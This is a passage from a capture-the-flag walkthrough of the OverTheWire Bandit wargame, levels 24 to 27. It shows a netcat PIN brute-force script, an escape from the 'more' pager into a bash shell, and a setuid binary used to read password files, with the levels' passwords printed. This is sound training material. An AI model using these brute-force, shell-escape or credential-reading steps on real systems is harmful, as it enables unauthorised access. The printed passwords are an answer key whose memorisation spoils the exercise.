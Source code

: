         if [ -f result.txt ]; then
            echo "" > result.txt
        else
            touch result.txt
        fi

        cat combinations.txt | nc localhost 30002 >> result.txt

        grep -vE "Wrong!|I am the pincode checker for user bandit25" result.txt

        echo "The correct pin is $(( $(grep -c "Wrong!" result.txt) + $start ))"
        ```

		> The machine is too slow to run all possibilities.

	> The password for `bandit25` is `p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`.

## 45 - Escapando del contexto de un comando

### Bandit level 26

1. `cat /usr/bin/showtext`: displays the content of `/usr/bin/showtext`.

	```SH
    #!/bin/sh

    export TERM=linux

    exec more ~/text.txt
    exit 0
    ```

2. `ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220`: uses the `bandit26.sshkey` key to establish an SSH connection to the `bandit26` on the localhost via SSH on port $2220$.

3. Minimize the terminal sufficiently to trigger the More pager, which displays a banner.

4. `v`: open the editor in More Mode.

5. `set shell=/bin/bash`: setting the shell of the user to a Bash shell.

6. `shell`: execute the shell command to spawn a new Bash shell.

7. `cat /etc/bandit_pass/bandit26`: displays the password for `bandit26`.

	> The password for `bandit26` is `c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1`.

### Bandit level 27

1. `./bandit27-do cat /etc/bandit_pass/bandit27`: executes the setuid `bandit27-do` with the `cat /etc/bandit_pass/bandit27`. The setuid binary runs with the permissions of the owner (in this case, bandit27), allowing you to read the password file.

	> The password for `bandit27` is `YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS`.

## 46 - Operando con proyectos de Github

### Bandit level 28
